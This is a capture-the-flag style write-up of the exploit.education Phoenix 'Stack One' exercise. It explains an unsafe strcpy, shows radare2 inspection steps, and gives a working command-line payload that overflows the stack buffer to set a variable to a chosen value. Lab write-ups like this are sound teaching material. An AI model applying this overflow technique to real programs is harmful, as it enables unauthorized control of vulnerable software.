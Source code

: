 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Stack One](https://exploit.education/phoenix/stack-one/)

<!--more-->

I will omit the source code from now on. All future challenges will be approached from a black box perspective first to improve reversing skills. Also the source is available online (if exploit.education is down try wayback archive)

https://exploit.education/phoenix/stack-one/

This challenge is very similar to the previous one, it only requires a bit more precision in overflowing the buffer since a specific value is expected.

In this challenge, data is read via strcpy, using the first command line parameter as input. This call is unsafe and leads to a stack buffer overflow.

```C
  strcpy(locals.buffer, argv[1]);
```

# Binary analysis

We can start off by looking at the binary using radare2:

```bash
radare2 stack-one
aa # analyze everything
s main
pD @ main

...
specify an argument, to be copied into the "buffer"" @ 0x804863c
...
ng_closer__changeme_is_currently_0x_08x__we_want_0x496c5962_n
...
```

Judging from these strings we can pass an argument to copy to a buffer. The is a variable called changeme which needs to be of a certain value.
Going from here, we would try to determine the length of the buffer. Various options exist: static analysis / RE, probing the binary or debugging it.

Since this is a very simple binary, let's skip the further analysis details.

The exploit:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-one `python -c 'print "A"*64 + "\x62\x59\x6c\x49"' `

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Note that the bytes in the payload are reversed to what we saw in the string due to the little-endian nature of the system.
  

